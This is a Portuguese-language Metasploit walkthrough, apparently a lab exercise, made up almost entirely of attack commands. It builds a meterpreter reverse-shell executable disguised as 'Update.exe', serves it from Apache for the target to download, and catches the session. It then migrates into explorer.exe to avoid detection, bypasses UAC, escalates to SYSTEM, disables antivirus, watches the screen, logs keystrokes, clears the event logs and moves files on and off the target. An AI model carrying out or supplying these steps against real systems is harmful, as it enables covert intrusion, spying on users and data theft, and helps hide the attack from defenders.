

# Pentest with Metasploit

### Ferramentas

- Kali Linux
- Metasploit
- Apache Server

### Configurando o Executável com o Kali Linux

- Acesso root: ``` sudo su ``` ou abrir o terminal Root
- Iniciando Servidor Apache: ```sudo service apache2 start```
- Criando o Executável: ```msfvenom -p windows/meterpreter/reverse_tcp -a x86 platform windows -f exe LHOST=myIP LPORT=4444 -o Update.exe```
- Copiando Executável para o Servidor Apache: ```cp Update.exe /var/www/html```
- Abrindo o Servidor Apache no Alvo: Abrir no Navegador o Link ```myIP/Update.exe```
- Baixar o Executável no Alvo.

### Conectando-se ao Alvo Através do Executável

- Abrindo o Metasploit no Kali: ```msfconsole```
- Abrindo o multi/handler: ```use multi/handler```
- Setando o Payload: ```set payload windows/meterpreter/reverse_tcp```
- Configurando o IP do Host: ```set LHOST myIP```
- Configurando a Porta: ```set LPORT 4444```
- Iniciar o Pentest: ```run```
- Rodar o Executável no Alvo.
- Exibir o Número pid do Pentest: ```getpid```
- Exibir os Serviços do Sistema: ```ps```
- Setar o pid do Pentest para o mesmo do explorer.exe: ```migrate 1916```
OBS: é importante setar um pid igual a um processo que nunca fecha, para o alvo não detectar a invasão.

  ### Executando o Pentest e Escalonando Privilégios

- Saindo da Sessão: ```background```
- Setando payload: ```set payload windows/meterpreter/reverse_tcp```
- Abrindo bypassuac: ```use exploit/windows/local/bypassuac```
- Escolhendo os targets (0 para x86 e 1 para x64): ```show targets```
- Setando o target: ```set target 0```
- Abrindo bypassuac: ```use exploit/windows/local/bypassuac```
- Configurando o IP do Host: ```set LHOST myIP```
- Configurando a Porta: ```set LPORT 2022```
- Exibindo as Configurações Necessárias: ```show options```
- Exibindo as Sessões: ```sessions``` 
- Setando a Sessão: ```set session 1``` 
- Escalonando Privilégios: ```exploit```
- Saindo da Sessão para Visualizar a Lista de Sessões: ```background```
- Exibindo as Sessões Ativas: ```sessions```
- Entrando na Sessão com Privilégios: ```sessions 2```
- Setar o pid do Pentest para o mesmo do explorer.exe: ```migrate 1916```
- Exibindo a Autoridade Atual: ```getuid```
- Ganhando mais Privilégios: ```getsystem```
- Exibindo a Autoridade Atual após Privilégios: ```getuid```
- Abrindo o Shell do Sistema: ```shell```
- Exibindo os Privilégios Adquiridos: ```whoami /priv```

  ### Extraindo e Enviando Dados para o Alvo
  
- Desativando Antivírus: ```run post/windows/manage/killav```
- Assistindo a Tela do Alvo: ```run vnc```
- Iniciando Keyscan (dados digitados): ```keyscan_start```
- Requisitando Dados do Keyscan: ```keyscan_dump```
- Encerrando Keyscan: ```keyscan_stop```
- Limpando Pegadas: ```clearev```
- Buscando Arquivos txt no Alvo: ```search -d C:/Users -f *.txt```
- Extraindo Dados do Alvo: ```download C:/Users/Alvo/Documents/flag.txt```
- Enviando Dados para o Alvo: ```upload uploadedflag.txt C:/Users/Alvo/Documents```
- : ``````

### Resutados


